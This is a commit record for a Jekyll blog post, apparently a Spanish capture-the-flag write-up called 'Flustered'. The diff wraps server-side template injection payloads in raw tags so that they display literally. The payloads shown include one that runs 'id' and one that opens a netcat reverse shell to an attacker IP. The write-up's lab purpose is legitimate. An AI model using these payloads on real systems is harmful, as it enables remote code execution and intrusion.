

Before and after one commit to jdejavi/jdejavi.github.io, a Jekyll site: the page built from _posts/2026-02-19-Flustered.md, in a window 1280 px wide and 900 px high, scrolled down 7775 px. Shown: the whole window, without its empty margins (178-1101 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Update 2026-02-19-Flustered.md

````diff
--- a/_posts/2026-02-19-Flustered.md
+++ b/_posts/2026-02-19-Flustered.md
@@ -221,7 +221,7 @@ curl -X POST -H "Content-Type: application/json" -d '{"siteurl": "{{ 7 * 7 }}"}'
 Vemos que se acontece el ataque, nos pasamos la petición a burpsuite con `-x http://127.0.0.1:8080` y ejecutaremos un RCE
 
 ```
-"siteurl"="{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}"
+"siteurl"="{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}{% endraw %}"
 ```
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105202455.png" | relative_url }})
@@ -230,7 +230,7 @@ Vemos que se acontece el ataque, nos pasamos la petición a burpsuite con `-x ht
 Nos mandaremos una reverse shell
 
 ```
-"siteurl"="{{ self.__init__.__globals__.__builtins__.__import__('os').popen('/usr/bin/nc 10.10.14.6 6666 -e /bin/bash').read() }}"
+"siteurl"="{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('/usr/bin/nc 10.10.14.6 6666 -e /bin/bash').read() }}{% endraw %}"
 ```
 
 ![]({{ "/assets/images/flustered/Pasted image 20251105202628.png" | relative_url }})
````
